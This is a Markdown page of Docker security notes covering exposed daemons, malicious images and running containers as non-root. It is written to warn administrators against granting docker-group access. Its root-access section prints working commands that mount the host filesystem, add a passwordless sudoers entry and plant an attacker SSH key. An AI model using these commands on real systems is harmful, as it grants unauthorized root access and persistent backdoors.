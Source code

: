 Docker Security Notes
=====================

* [Overview](README.md) | [Install/Config](config.md)
  | [Image Build](image.md) | [Registries](registries.md)
  | [Security](security.md) | [Misc](misc.md) | [Tips](tips.md)

Secure Your Server and Be Careful of Malicious Images
-----------------------------------------------------

There are automated bots that scan for Docker daemons to exploit; if
you leave a port open you will get 0wned. (See 'Leveraging Docker for
Root Access' below.) The default standalone config uses only a Unix
socket, but management systems may open stuff further.

Malicious images are also a problem, and, despite Docker doing
security scanning, may be left up on [Docker Hub] for a year or more.

For details, see:
* [Cryptojacking invades cloud. How modern containerization trend is
  exploited by attackers][kromtech]


Leveraging Docker for Root Access
---------------------------------

On many systems the Docker daemon socket is owned by group `docker`
and group members have write access to the socket. It's tempting to
add users to this group so they need not `sudo docker`; don't do this!

Anybody with access to the Docker daemon socket can easily leverage
this for root access on the host using the technique below. Thus, if
you're giving someone this access, make it explicit and clear by
putting them in the `sudo` group instead.

    #   On the host, start a Docker container with a root shell
    #   that has access to all files on the host.
    docker run -it --rm --name root -v /:/host:rw alpine /bin/sh -l

    #   You are now running as root user in the docker container.
    #   Allow user `taro` to sudo to a root shell with no password.
    cd /host/etc/sudoers.d
    echo 'taro ALL=(ALL) NOPASSWD:ALL' > 50-taro
    chmod 600 50-taro
    exit

    #   Or, more subtly, if another user has sudo without password:
    cat >> /host/home/adminuser/.ssh/authorized_keys
    ssh-rsa AAAA.... ur@hacked.com
    ^D

The same of course applies to making the Docker daemon socket available
to any account (root or not) inside a container.

Also see [lvh blog] for more details and a video.

User/UID in Container
---------------------

By default Docker container processes are started as UID 0 (user
`root`), relying on the container protection to isolate the process.
It's considered better practice (though not so often done, except by
some hosting services that enforce this) to run as a different user in
the container. (This can be set with `USER` in the `Dockerfile` or
`docker run -u`.) An alternative is to use user namespaces to map
`root` in the container to a different user on the host.

When using `USER` in a `Dockerfile`, note that this affects the build
of images using that image as a base image. Generally they'll have to
user another `USER` to change back to root to install further packages
or whatever, and then change back again later. Also note that hosting
services may override the `USER` with their own `docker run -u` option,
particularly if you give a username instead of UID.

When using a different user in the container, the main problem that
usually crops up is lack of an `/etc/passwd` entry for the user.
(OpenSSH, for example, will refuse to run in this circumstance.)
[`nss_wrapper`] can be used to work around this, if you install it in
your container and use appropriate wrapper scripts or similar to
supply the following environment. You must supply both passwd and
group; it won't work with just passwd.

    LD_PRELOAD=/usr/lib/libnss_wrapper.so
    NSS_WRAPPER_PASSWD=/path/to/custom/passwd
    NSS_WRAPPER_GROUP=/path/to/custom/group

This series of posts by Graham Dumpleton is a detailed exploration of
root and non-root users in Docker containers.
* [Running IPython as a Docker container under OpenShift.][dscpl151218]  
  Why is the `jupyter/notebooks` image breaking when run on OpenShift?
  Because OpenShift doesn't run it as root.
* [Don't run as root inside of Docker containers.][dscpl151218a]  
  Example of leveraging root in a container to get root access on the host.
* [Overriding the user Docker containers run as.][dscpl151222]  
  `USER` directive in Dockerfile; `run -u` option.
* [Random user IDs when running Docker containers.][dscpl151223]  
  How to handle not knowing the UID of your container.
  Working when GID is 0 and umask settings.
* [Unknown user when running Docker container.][dscpl151224]  
  Using `nss_wrapper`.
* [Issues with running as PID 1 in a Docker container.][dscpl151229]



[Docker Hub]: https://hub.docker.com/explore/
[`nss_wrapper`]: https://cwrap.org/nss_wrapper.html
[dscpl151218]: http://blog.dscpl.com.au/2015/12/running-ipython-as-docker-container.html
[dscpl151218a]: http://blog.dscpl.com.au/2015/12/don-run-as-root-inside-of-docker.html
[dscpl151222]: http://blog.dscpl.com.au/2015/12/overriding-user-docker-containers-run-as.html
[dscpl151223]: http://blog.dscpl.com.au/2015/12/random-user-ids-when-running-docker.html
[dscpl151224]: http://blog.dscpl.com.au/2015/12/unknown-user-when-running-docker.html
[dscpl151229]: http://blog.dscpl.com.au/2015/12/issues-with-running-as-pid-1-in-docker.html
[kromtech]: https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
[lvh blog]: https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html
